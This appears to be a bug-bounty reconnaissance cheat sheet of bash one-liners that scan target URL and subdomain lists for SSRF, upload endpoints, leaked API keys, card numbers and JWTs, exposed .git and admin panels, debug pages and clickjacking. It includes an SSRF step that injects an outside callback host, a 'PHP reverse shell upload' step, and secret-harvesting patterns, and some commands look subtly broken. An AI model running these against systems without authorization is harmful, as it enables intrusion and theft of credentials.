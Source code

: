 ### SSRF (Server-Side Request Forgery)
```bash
cat all_urls.txt | gf ssrf | qsreplace 'http://burpcollaborator.net' | httpx -silent -o ssrf_candidates.txt
```

### File Upload (Potential Upload Endpoints)
```bash
cat all_urls.txt | gf upload | httpx -silent -mc 200 -o upload_endpoints.txt
```

### Sensitive Data Exposure (Credit Card, API Keys)
```bash
cat all_urls.txt | httpx -silent -fr 'sk_live|pk_live|eyJhbGci|-----BEGIN PRIVATE KEY-----|4[0-9]{12}(?:[0-9]{3})?' -o sensitive_data.txt
```

### JWT Token Leak (in URL or Response)
```bash
cat all_urls.txt | httpx -silent -fr 'eyJ' -o jwt_leaks.txt
```

### Exposed Database Panels (phpMyAdmin, Mongo, etc)
```bash
cat subdomains.txt | httpx -silent -path-list <(echo -e '/phpmyadmin/\n/admin/\n/mongo-express/') -mc 200 -o exposed_db_panels.txt
```

### GIT Repo Exposure
```bash
cat subdomains.txt | httpx -silent -path '/.git/config' -mc 200 -o exposed_git.txt
```

### Debug Pages (dev.php/test.php)
```bash
cat subdomains.txt | httpx -silent -path-list <(echo -e '/test.php\n/dev.php\n/debug.php') -mc 200 -o debug_pages.txt
```

### Exposed API Keys in JavaScript Files
```bash
cat subdomains.txt | gau | grep '\.js$' | httpx -silent -fr 'AIza|sk_live|ghp_' -o api_key_leaks.txt
```

### Unsafe File Upload (PHP Reverse Shell Upload)
```bash
cat upload_endpoints.txt | qsreplace 'file=shell.php' | httpx -silent -mc 200 -o shell_upload.txt
```

### Clickjacking (Missing X-Frame-Options)
```bash
cat subdomains.txt | httpx -silent -header 'X-Frame-Options' -o missing_xfo.txt
```
